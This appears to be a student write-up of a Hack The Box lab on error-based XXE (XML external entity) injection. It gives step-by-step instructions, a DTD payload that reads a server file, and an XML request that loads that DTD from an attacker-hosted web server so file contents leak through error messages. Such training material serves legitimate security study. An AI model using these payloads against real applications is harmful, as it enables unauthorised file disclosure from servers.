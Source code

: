 ##### Error Based


`Extracted from Hack The Box Web Attacks - Error Based XXE`

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.


Steps to read the `flag.php` using `Error Based` XXE:
1. Inject and invalid parameter to see if errors are returned.

![XXE Error Based Request](/images/htb/web-attacks/xxe_error_based.png)

2. Create a dtd file with the below payload:

```
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

3. Create a python webserver
```
python3 -m http.server 8000
```

4. Send the below request to read flag.php
```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.205:8000/xxe_error.dtd">
  %remote;
  %error;
]><root>
<name>Error based XXE</name>
<tel>0123456789</tel>
<email>test@gmail.com</email>
<message>Testing for Error based XXE</message>
</root>
```
